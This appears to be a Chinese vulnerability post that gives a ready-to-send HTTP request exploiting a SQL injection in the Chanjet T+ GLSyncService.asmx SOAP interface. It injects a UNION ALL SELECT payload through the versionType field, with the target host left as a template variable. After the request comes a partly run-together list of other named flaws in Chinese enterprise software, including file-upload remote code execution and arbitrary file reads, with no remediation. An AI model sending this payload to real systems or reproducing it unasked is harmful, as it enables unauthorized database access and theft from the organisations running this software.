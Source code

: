   
  
漏洞名称：  
畅捷通T+ GLSyncService.asmx SQL注入漏洞  
  
漏洞描述：  
  
/tplus/GLSyncService.asmx接口存在SOAP注入漏洞  

```
POST /tplus/GLSyncService.asmx HTTP/1.1
Host: {{Hostname}}
SOAPAction: &#34;http://www.chanjet.com/GetSourceAccountDataTable&#34;
Content-Type: text/xml; charset=utf-8


<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soap:Envelope xmlns:soap=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;>
  <soap:Body>
    <GetSourceAccountDataTable xmlns=&#34;http://www.chanjet.com/&#34;>
      <versionType>' UNION ALL SELECT NULL,@@VERSION,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- VsIH</versionType>
    </GetSourceAccountDataTable>
  </soap:Body>
</soap:Envelope>
```

  
  
其他  
  
  
帆软报表  
fr_remote_design 接口存在未授权文件上传漏洞  
  
  
  
美特 CRM  
sendsms.jsp 存在任意文件上传漏洞  
  
  
畅捷通T+ keyEdit.aspx SQL注入  
  
浪擎DAYS灾备任意文件上传  
  
圣博润堡垒机远程代码执行  
  
浪潮GS任意文件读取  
  
唯德知识产权管理系统 WSDownloadPDF存在任意文件读取漏洞  
  
华天软件Inforcenter PLM 存在任意文件读取漏洞  
  
昂捷CRM UploadFile 存在文件上传致RCE漏洞  
  
泛微OA E-cology plugin.xml存在未授权访句  
  
汉王e脸通综合管理平台  
  
queryMeetingFile.do 存在SOL注入漏洞美特CRM sendsms.jsp 文件上传致RCE漏洞泛微OA前台登录绕过+后台组合拳RCE  
  
汉王e脸通综合管理平台  
  